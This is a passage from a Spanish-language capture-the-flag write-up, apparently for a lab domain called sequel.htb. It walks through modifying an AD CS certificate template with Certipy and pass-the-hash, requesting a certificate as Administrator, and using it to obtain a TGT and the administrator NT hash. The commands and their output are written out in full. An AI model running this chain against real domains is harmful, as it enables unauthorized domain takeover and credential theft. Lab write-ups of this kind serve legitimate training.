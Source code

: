 ```bash
(pywisker)─(kali㉿kali)-[~/pywhisker/pywhisker]
└─$ certipy-ad template -username ca_svc@sequel.htb -hashes aad3b435b51404eeaad3b435b51404ee:3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'

```

- Este comando **guarda la configuración original** de la plantilla en `DunderMifflinAuthentication.json` y la modifica para permitir solicitudes sin restricciones adicionales, facilitando el abuso posterior.


Luego, con la plantilla alterada, inmediatamente solicitamos un certificado válido para el usuario **`Administrator`**:

```bash
──(pywisker)─(kali㉿kali)-[~/pywhisker/pywhisker]
└─$ certipy-ad req -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.51

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

- Esta solicitud fue **exitosa**. Se emitió un certificado para el UPN `administrator@sequel.htb` y se guardó junto con su clave privada en el archivo `administrator.pfx`.

Con este certificado ya en nuestras manos, **podemos autenticarnos como Administrator en el dominio**, sin necesidad de conocer su contraseña ni su hash.

### Autenticación como “Administrator” usando el certificado emitido (ESC8)

Con el certificado `.pfx` que generamos previamente a través del abuso de la plantilla vulnerable `DunderMifflinAuthentication`, ahora procedimos a autenticarnos en el dominio como el usuario **Administrator**, sin necesidad de conocer su contraseña o hash.

Ejecutaremos el siguiente comando

```bash
┌──(pywisker)─(kali㉿kali)-[~/pywhisker/pywhisker]
└─$ certipy-ad auth -pfx administrator.pfx -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
